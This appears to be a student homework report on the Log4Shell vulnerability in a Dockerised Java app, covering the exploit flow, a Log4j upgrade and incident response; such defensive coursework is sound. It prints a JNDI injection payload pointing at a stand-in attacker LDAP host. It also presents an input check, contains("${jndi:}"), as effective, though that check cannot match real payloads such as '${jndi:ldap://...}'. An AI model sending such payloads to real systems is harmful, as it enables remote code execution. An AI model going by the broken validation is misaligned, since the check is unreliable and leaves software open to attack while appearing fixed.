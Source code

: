 # SEAS-8405 Homework 9 - Log4Shell Vulnerability Report

Stephen Carver
---

## 1. Overview

This report details a Log4Shell (CVE-2021-44228) vulnerability found in a Java application. It outlines the application architecture, explains how the exploit occurs, and describes the mitigation steps taken. The "before" state of the application used a vulnerable version of Log4j (2.14.1), allowing for potential Remote Code Execution (RCE) via malicious JNDI LDAP lookups. The "after" state demonstrates the implemented fix by upgrading Log4j to version 2.17.0 and adding input validation.

---

## 2. Architecture Diagram

![Diagram](diagram.svg)


* **User/Attacker:** An external entity interacting with the Java application.
* **Java Application (`app` service):**
    * Runs in a Docker container.
    * Exposes port 8080.
    * Contains a Spring Boot application with a `/log` endpoint.
    * Uses Log4j for logging.
    * Communicates with the LDAP server if a JNDI lookup is processed by a vulnerable Log4j version.
* **LDAP Server (`ldap` service):**
    * Runs in a separate Docker container (image: `osixia/openldap:1.5.0`).
    * Exposes port 389.
    * In the exploit scenario, this represents an attacker-controlled LDAP server.

**Flow of Exploit:**

1.  Attacker sends a malicious string (`${jndi:ldap://attacker-ldap-server/a}`) to the `/log` endpoint of the Java application.
2.  The Java application's vulnerable Log4j library attempts to resolve the JNDI lookup.
3.  Log4j makes a connection to the (attacker-controlled) LDAP server.
4.  The LDAP server can respond with a reference to a malicious Java class, which the application would then load and execute (RCE). The provided `ldap_server.py` simulates the listening part of this attacker server.

---

## 3. Exploit Explanation (Log4Shell - CVE-2021-44228)

The Log4Shell vulnerability (CVE-2021-44228) affected Apache Log4j, a widely used Java logging library. The core of the vulnerability lies in how Log4j processed log messages.

**Vulnerable State (Before Fix):**

1.  **Log4j Version:** The application was using Log4j version `2.14.1` for both `log4j-core` and `log4j-api`. This version is known to be vulnerable to Log4Shell.
2.  **JNDI Lookups:** Log4j, in vulnerable versions, supported JNDI (Java Naming and Directory Interface) lookups within log messages. When a string like `${jndi:...}` was logged, Log4j would attempt to resolve it.
3.  **Attacker-Controlled Input:** The `LogController.java` in the "before" state takes user input and logs it directly: `logger.info("User input: " + input);`.
4.  **Exploitation Steps:**
    * An attacker can craft a malicious input string, for example: `${jndi:ldap://attacker.com/a}`.
    * This string is sent to the `/log` endpoint of the Java application.
    * The application's `LogController` passes this string to `logger.info()`.
    * The vulnerable Log4j library parses this string and encounters the JNDI lookup.
    * Log4j attempts to connect to the specified LDAP server (e.g., `attacker.com`, which would be controlled by the attacker).
    * The attacker's LDAP server (simulated by `ldap_server.py` which listens for connections and received data) can then serve a JNDI reference that points to a remote Java class file.
    * The vulnerable Java application will deserialize or load this remote class, leading to Remote Code Execution (RCE) on the application server.

---

## 4. Mitigation and Response Summary

The vulnerability was addressed through a combination of upgrading the Log4j library and implementing input sanitization as a defense-in-depth measure.

**Mitigation Steps Implemented (After Fix):**

1.  **Log4j Version Upgrade:**
    * The primary mitigation was to update the Log4j library versions in the `pom.xml` file.
    * `log4j-core` and `log4j-api` were upgraded from `2.14.1` to `2.17.0`.
    * Log4j version `2.17.0` disables JNDI lookups by default and removes the message lookup feature, directly addressing the root cause of CVE-2021-44228 and subsequent related vulnerabilities (like CVE-2021-45046, CVE-2021-45105).

2.  **Input Validation/Sanitization:**
    * As an additional security layer, the `LogController.java` was modified to include basic input validation.
    * The code now checks if the input string contains the pattern `${jndi:}`:
        ```java
        if (input.contains("${jndi:}")){
            return "Invalid input detected";
        }
        ```
    * If this pattern is detected, the application rejects the input and does not log it in a way that would trigger JNDI lookup, even if the Log4j version were somehow still vulnerable or a new, similar vulnerability emerged.

**Incident Response Summary:**

While the provided files focus on the technical fix, a typical incident response to Log4Shell would involve:

1.  **Identification:** Discovering the use of vulnerable Log4j versions within systems. This involves scanning applications and their dependencies.
2.  **Containment:**
    * Immediately restricting outbound traffic from potentially affected servers to prevent callbacks to attacker-controlled LDAP/RMI servers, if patching is not immediately possible.
    * Applying temporary workarounds like setting `log4j2.formatMsgNoLookups` to `true` for Log4j versions >=2.10, if an immediate upgrade isn't feasible (though upgrading is the preferred solution).
3.  **Eradication:**
    * **Patching/Upgrading:** Upgrading Log4j to a non-vulnerable version (e.g., 2.17.0 or later as recommended by Apache) is the most effective way to eradicate the vulnerability.
    * Removing the `JndiLookup` class from the classpath as a temporary measure if patching is delayed.
4.  **Recovery:**
    * Restoring systems from secure backups if a compromise is suspected.
    * Thoroughly scanning systems for any signs of compromise or persistence mechanisms established by attackers.
5.  **Lessons Learned & Post-Incident Activity:**
    * **Software Bill of Materials (SBOM):** Maintaining an accurate SBOM to quickly identify vulnerable components in the future.
    * **Dependency Management:** Regularly updating dependencies and having a process for quickly patching critical vulnerabilities.
    * **Security Best Practices:** Implementing defense-in-depth, including input validation, network segmentation, and egress filtering.
    * **Security Testing:** Regularly performing vulnerability scanning and penetration testing.
    * **Logging and Monitoring:** Enhancing logging to detect suspicious activities, such as unusual outbound connections or JNDI lookup attempts (even if blocked). The `log4j2.xml` configuration can be reviewed to ensure appropriate log levels and appenders are in place for monitoring.
